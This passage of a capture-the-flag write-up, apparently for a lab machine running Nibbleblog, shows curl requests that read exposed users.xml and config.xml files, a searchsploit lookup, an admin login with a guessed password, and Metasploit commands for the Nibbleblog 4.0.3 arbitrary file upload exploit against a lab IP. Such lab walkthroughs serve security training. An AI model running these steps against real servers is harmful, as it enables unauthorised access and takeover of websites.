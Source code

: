 Manual enumeration of `/content/private/` revealed:

- **/content/private/users.xml**: Exposed an `admin` user.
- **/content/private/config.xml**: Contained potential passwords: `yum yum` and `nibbles`.

```bash
curl http://10.129.240.184/nibbleblog/content/private/users.xml
curl http://10.129.240.184/nibbleblog/content/private/config.xml
```

### Vulnerability Research

Searched for known vulnerabilities in Nibbleblog using Searchsploit:

```bash
searchsploit nibbleblog
```

**Results:**

```
Nibbleblog 3 - Multiple SQL Injections  | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)  | php/remote/38489.rb
```

The arbitrary file upload vulnerability in Nibbleblog 4.0.3 (Metasploit module) was relevant, but required valid admin credentials.

---

## Authentication

Tested the potential credentials from `config.xml` on the admin login page (`http://10.129.240.184/nibbleblog/admin.php`):

- **Credentials:** `admin:nibbles` succeeded, granting access to the Nibbleblog admin panel.

The admin panel allowed management of posts, plugins, and file uploads, aligning with the Metasploit module’s requirements.

---

## Exploitation

### Metasploit Arbitrary File Upload

Used Metasploit to exploit the Nibbleblog 4.0.3 arbitrary file upload vulnerability:

```bash
msfconsole
use multi/http/nibbleblog_file_upload
set RHOSTS 10.129.240.184
set USERNAME admin
set PASSWORD nibbles
run
```
